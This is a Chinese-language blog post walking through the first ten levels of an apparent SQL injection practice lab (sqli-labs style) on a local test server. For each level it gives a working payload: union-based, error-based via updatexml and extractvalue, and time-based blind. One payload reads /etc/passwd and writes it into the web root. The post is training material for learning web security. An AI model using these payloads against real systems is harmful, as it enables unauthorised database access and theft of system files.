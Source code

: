 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用` order by` 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：`SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1`
 - 猜解出来了三个字段。接着使用`union` 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：`SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1`
 - 接下来就可以使用`information_schema`数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: `SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1`
 - 使用不存在的变量,然后爆出数据名字
 - Payload：`SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 `
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用`information`进行查询处数据库
 - Payload：`SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1`
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：`SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1`
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：`http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b`
 - SQL语句：`SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1`
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：`http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b`
 - SQL语句：`SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1`
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：`http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b`
 - SQL语句：`SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1`
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：`http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b`
 - SQL语句：`SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1`
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：`http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker`
 - SQL：`SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1`
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：`http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack`
 - SQL语句：`SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1`
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：`http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker`
 - SQL：`SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1`
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:`http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker`
 - SQL:`SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1`
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:`http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker`
 - SQL:`SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1`
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。
